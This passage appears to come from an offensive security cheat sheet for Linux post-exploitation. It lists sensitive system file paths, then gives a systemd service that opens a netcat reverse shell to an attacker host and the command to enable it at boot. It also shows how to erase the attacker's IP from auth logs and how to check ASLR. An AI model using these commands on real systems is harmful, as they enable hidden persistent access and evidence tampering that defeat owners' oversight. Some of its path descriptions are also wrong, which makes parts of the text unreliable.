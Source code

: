 ```sh
/usr/include : Contains include files used by ‘c‘ program. /usr/share : Shared directories of man files, info files, etc. /usr/lib : Library files required during program compilation. /usr/sbin : Commands for Super User, for System Administration. /proc/cpuinfo : CPU Information
/proc/filesystems : File-system information being used currently. /proc/interrupts : Information about the current interrupts. /proc/ioports : All Input/Output addresses used by devices. /proc/meminfo : Memory Usages Information.
/proc/modules : Currently used kernel module.
/proc/mount : Mounted File-system Information.
/proc/stat : Detailed Statistics of the current System. /proc/swaps : Swap File Information.
/version : Linux Version Information.
/var/log/auth* : Log of authorization login attempts. /var/log/lastlog : Log of last boot process.
```

## Backdooring Systemd Services

Create the following service descriptor at ```/etc/systemd/system/notmalicious.service```:

```sh
[Unit]
Description=Not a backdoor into your critical server.
[Service]
Type=simple
ExecStart=/usr/bin/nc -e /bin/bash <ATTACKER_IP> <PORT> 2>/dev/null
[Install]
WantedBy=multi-user.target
```

Enable the backdoor service to run on restart:

```sh
sudo systemctl enable notmalicious
```

## Old-Fashioned Log Cleaning

Grep to remove sensitive attacker information then copy into original logs

```sh
# cat /var/log/auth.log | grep -v "<Attacker IP>" > /tmp/cleanup.log
# mv /tmp/cleanup.log /var/log/auth.log
```

## ASLR Enumeration

Address space layout randomization (ASLR) is a computer security technique involved in preventing exploitation of memory corruption vulnerabilities. In order to prevent an attacker from reliably jumping to, for example, a particular exploited function in memory, ASLR randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries.

- If the following equals 0, not enabled

```sh
cat /proc/sys/kernel/randomize_va_space 2>/dev/null
```
